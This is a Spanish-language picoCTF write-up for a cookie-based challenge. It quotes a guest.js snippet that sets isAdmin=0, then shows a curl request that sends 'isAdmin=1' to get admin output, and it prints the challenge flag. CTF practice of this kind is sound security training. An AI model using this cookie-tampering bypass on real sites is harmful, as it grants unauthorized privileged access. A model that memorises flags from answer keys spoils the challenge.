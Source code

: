 ## Objetivo
Can you get the flag? Go to this website and see what you can discover.
http://saturn.picoctf.net:57741/

## Pistas
Do you know how to modify cookies?

## Solución
Si nosotros nos ponemos a inspeccionar el código podemos observar que el código guest.js muestra lo siguiente
```js
function continueAsGuest()
{
  window.location.href = '/check.php';
  document.cookie = "isAdmin=0";
}
```

Podemos ver que contiene una cookie con el valor de administrador en 0, si nosotros utilizamos una herramienta como curl, podemos enviar cookies modificadas para que el archivo nos muestre la bandera que estamos buscando.

```cmd
C:\Users\mgarcia>curl -s http://saturn.picoctf.net:57741/check.php -H "Cookie: isAdmin=1"
<html>
<body>

<p>picoCTF{gr4d3_A_c00k13_5d2505be}</p>

</body>
</html>

C:\Users\mgarcia>
```

## Notas adicionales
## Referencias